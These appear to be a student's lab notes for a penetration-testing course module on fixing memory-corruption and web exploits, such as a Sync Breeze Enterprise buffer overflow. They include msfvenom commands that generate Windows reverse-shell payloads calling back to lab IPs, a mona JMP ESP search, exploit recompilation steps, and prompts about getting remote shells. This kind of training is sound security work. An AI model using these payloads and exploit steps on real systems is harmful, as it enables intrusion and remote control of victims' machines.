 # 15.1.4 Cross-Compiling Exploit Code
**1.  Locate the exploit discussed in this section using the searchsploit tool in Kali Linux.**

We simply need to run the following command in order to find our exploit:
`searchsploit "Sync Breeze Enterprise 10.0.28"`

We can then copy the exploit to our working directory by using the -m command:
`searchsploit -m 42341`

**2.  Install the mingw-w64 suite in Kali Linux and compile the exploit code.**

In order to install mingw-w64 we need to run the following command:
`sudo apt install mingw-w64`

Upon viewing the code we see a few headers are included
```#include <inttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>
```

Doing a bit of research on winsock informs us that adding the lws2_32 flag should allow us to compile the program on our Kali machine. The following command will compile the code:
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`

# 15.1.6 Changing the Socket Information
**1.  Modify the connection information in the exploit in order to target the SyncBreeze installation on your Windows client.**

In order to fix the exploit we simply need to open it in our text editor and modify the IP and port variables which are hard coded.
![[Pasted image 20220717201002.png]]

**2.  Recompile the exploit and use Wireshark to confirm that the code successfully initiates a socket connection to your dedicated Windows client.**

Once we modify the code we must recompile it before running the program. After the recompilation we can run the exe using wine. After executing the exe with wine we see the connection being made via Wireshark.
![[Pasted image 20220717232100.png]]
![[Pasted image 20220717232205.png]]

# 15.1.8 Changing the Return Address
**1.  Find any valid return address instruction and alter the one present in the original exploit.**

We can reuse our initial return address instruction we found in the previous exercise. All we need to do is replace the retn variable with our new instruction.
![[Pasted image 20220717233209.png]]


# 15.1.10 Changing the Payload
**1.  Generate a reverse shell payload using msfvenom while taking into account the bad characters of our exploit.**

To generate a new payload we can run the following MSFVenom command:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`

**2.  Replace the original payload with the newly generated one.**

We can now insert this payload into our exploit.
![[Pasted image 20220717233734.png]]

**3.  Attach the debugger to the target process and set a breakpoint at the return address instruction.**

We can now start the service, attach the debugger, and set a breakpoint (F2) at our return instruction.
![[Pasted image 20220717233911.png]]
![[Pasted image 20220717233936.png]]

**4.  Compile the exploit and run it. Did you hit the breakpoint?**

We compile the exploit with the following command:
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`

Running the command with wine
`wine syncbreeze_exploit.exe `

Unfortunately, we do not hit our breakpoint and instead the program crashes at 0x9010090c
![[Pasted image 20220717234314.png]]

# 15.1.12 Changing the Overflow Buffer
**1.  Fix the overflow buffer such that the EIP register will be overwritten by your chosen return address instruction.**
Because the exploit is setting the last byte of our buffer to a null byte we must increase our buffer size by 1. We can do this by simply adjusting the "initial_buffer_size" variable from 780 to 781. Recompiling and running this changed exploit we can see we hit our breakpoint.
![[Pasted image 20220717235304.png]]

And letting the program finish running we can see we get our reverse shell.
![[Pasted image 20220717235336.png]]


**2.  Install the _ASX to MP3 Converter_ application located under the C:\Tools\fixing_exploits directory; download the exploit for _ASX to MP3 Converter_ from EDB[1](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/fixing-exploits/fixing-memory-corruption-exploits/practice-changing-the-overflow-buffer#fn1) and edit it in order to get a shell on your dedicated Windows machine.**

We can start by opening up the PoC exploit and replacing the shellcode with one we generated on our own.  We will be using the python PoC exploit labeled  generate we use the following MSFVenom command (note the bad characters, information we gained from an internet search):



`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9000 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x09\x0a\x1a"`

![[Pasted image 20220718034723.png]]
![[Pasted image 20220718034803.png]]

`!mona find -s "\xff\xe4" -m "MSA2Mutility03.dll"`

0x1003789D
00149EAE
![[Pasted image 20220718202041.png]]


![[Pasted image 20220718035038.png]]

We also need to identify a JMP ESP instruction by using mona modules and then replace our PoC with the correct EIP address.




# 15.2.4 Changing Connectivity Information
**1.  Connect to your dedicated Linux lab client and start the apache2 service; the target web application is located under /var/www/https/.**
**2.  Modify the original exploit and set the _base_url_ variable to the correct IP address of your dedicated Linux lab client as well as the protocol to HTTPS.**
**3.  Get familiar with the _requests_ Python library and adjust your exploit accordingly to avoid SSL verification.**
**4.  Edit the _username_ and _password_ variables to match the ones from our test case (username "admin", password "HUYfaw763").**
**5.  Try to run the exploit against the Linux lab client, does it work? If not, try to explain why.**


# 15.2.6 Troubleshooting the "index out of range" Error
**1.  Observe the error that is generated when running the exploit.**
**2.  Attempt to troubleshoot the code and determine why the error occurs.**
**3.  Modify the exploit in order to avoid the error and run it against your dedicated Linux client.**
**4.  Verify that your exploit worked by attempting to execute the _whoami_ command using the remote php shell.**
**5.  Attempt to obtain a fully interactive shell with this exploit.**